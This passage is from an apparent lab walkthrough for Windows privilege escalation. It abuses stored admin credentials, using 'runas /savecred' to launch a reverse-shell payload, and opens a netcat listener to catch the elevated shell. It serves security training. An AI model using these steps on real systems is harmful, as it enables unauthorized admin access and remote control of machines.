     > ```ruby
     > C:\PrivEsc\savecred.bat script
     > ```
     > to refresh the saved credentials.
     
     > ## ``savecred.bat`` → A script on the lap that forces the system to store the credential (usually owned by the admin).
     > Objective: Make sure that the credential is registered so that we can exploit it.
     
          
     </details>
     
     
     ## 2. run payload using saved credential
     
     ```ruby
     runas /savecred /user:admin C:\PrivEsc\reverse.exe
     ```
     
     - **`runas`** : Tool to run programs as different user
     - **`/savecred`** : It means use the credential stored in the system instead of asking you to enter the password.
     - **`/user:admin`** : Specify that you want to run the program as a user named admin.
     - **`C:\PrivEsc\reverse.exe`** : This is your payload (reverse shell).
     
     
     > ---
     > ### 📌 _Goal → Run reverse.exe with admin privileges without entering the password yourself → take a shell with higher privileges._
     > ---
     
     
     ## 3. open listener on kali
     
     ```ruby
     nc -nvlp 4444
     ```
     
     
     
     <img width="1265" height="315" alt="image" src="https://github.com/user-attachments/assets/f1595237-ce9c-4b71-baa1-383a14ee2106" />
     
     



  </details>









- <details>
     <summary></summary>
  </details>


- <details>
     <summary></summary>
  </details>








     
</details>






















<details>
  <summary></summary>
</details>

<details>
  <summary></summary>
</details>

<details>
  <summary></summary>
</details>

<details>
  <summary></summary>
</details>

<details>
  <summary></summary>
</details>





